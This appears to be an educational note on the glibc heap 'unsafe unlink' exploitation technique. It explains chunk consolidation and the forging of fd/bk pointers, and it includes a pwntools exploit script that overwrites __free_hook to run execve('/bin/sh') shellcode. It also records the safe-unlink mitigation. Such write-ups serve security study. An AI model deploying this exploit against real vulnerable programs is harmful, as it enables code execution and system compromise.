 ## Implementation

The goal is to clear the next chunk's prev in use flag in order to trigger a consolidation of 2 chunks when freeing.
We then need to control the fd and bk pointers of the consolidated chunks to trigger 2 arbitrary writes.

When free unlink our first chunk during consolidation, it follows the forward pointer and update its backward pointer, and does the opposit to the forward pointer, like a regular double-linked list unlink.

```c
chunk->fd->bk = chunk->bk;
chunk->bk->fd = chunk->fd;
```

bk being at offset 0x18 and fd at offset 0x10 in the chunk structure.

The primitive looks like this in gdb:

**rax = fd**
![rax](rax.png)

**rdx = bk**
![rdx](rdx.png)


### Exploit example
```python
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))

fd = libc.sym.__free_hook - 0x18
bk = heap + 0x20 + 0x10 - 0x10 # heap + 0x20 = first chunk, +0x10 = shellcode
prev_size = 0x90
fake_size = 0x90 # with prev in use flag cleared

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

edit(chunk_a, p64(fd) + p64(bk) + shellcode + (b'\x00'*(0x70 - len(shellcode))) + p64(prev_size) + p64(fake_size))

# Trigger consolidation
free(chunk_b)

# Trigger free_hook
free(chunk_a)

```


## Side note

The unsorted bin, during malloc, does a *partial* unlinking, following the victim's chunk backward pointer and updating its forward pointer to the bim's head.

## Mitigation

|GLIBC VERSION|PATCHES|
|---|---|
|2.3.4|Added [[Safe unlink]]|

